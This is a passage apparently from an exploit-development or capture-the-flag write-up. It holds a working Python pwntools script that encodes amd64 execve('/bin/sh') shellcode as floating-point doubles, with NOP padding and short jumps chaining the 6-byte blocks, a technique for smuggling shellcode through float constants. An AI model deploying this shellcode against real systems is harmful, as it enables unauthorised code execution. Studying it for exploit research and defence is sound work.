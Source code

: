 ### Python3 Script for Shellcode to Floating Numbers

The script to convert shellcode to floating numbers:

```py
#!/usr/bin/env python3

import struct

from pwn import *

context.arch = "amd64"

# based off shellcraft.amd64.linux.execve(path='/bin/sh')
sc = '''
    push 0x68732f6e
    pop rax
    push 0x69622f
    pop rbx
    shl rax, 24
    add rax, rbx
    xor rbx, rbx
    push rax
    mov rdi, rsp
    xor edx, edx /* 0 */
    xor esi, esi /* 0 */
    push SYS_execve /* 0x3b */
    pop rax
    syscall
'''


def packshellcode(sc, n):  # packs shellcode into n-byte blocks
    ret = []
    cur = b""
    for line in sc.splitlines():
        print(line)
        k = asm(line)
        print(k)
        assert (len(k) <= n)
        if (len(cur) + len(k) <= n):
            cur += k
        else:
            ret += [cur.ljust(6, b"\x90")]  # pad with NOPs
            cur = k

    ret += [cur.ljust(6, b"\x90")]
    return ret


SC = packshellcode(sc, 6)

# Ensure no repeat of 6 byte blocks
D = dict(zip(SC, [SC.count(x) for x in SC]))
assert (max(D.values()) == 1)

# short jmp rel8: https://www.felixcloutier.com/x86/jmp
jmp = b'\xeb'

# add jumps after each 6 byte block
SC = [(x + jmp + b"\x07") for x in SC]

SC = [struct.unpack('<d', x)[0] for x in SC]  # represent as doubles

```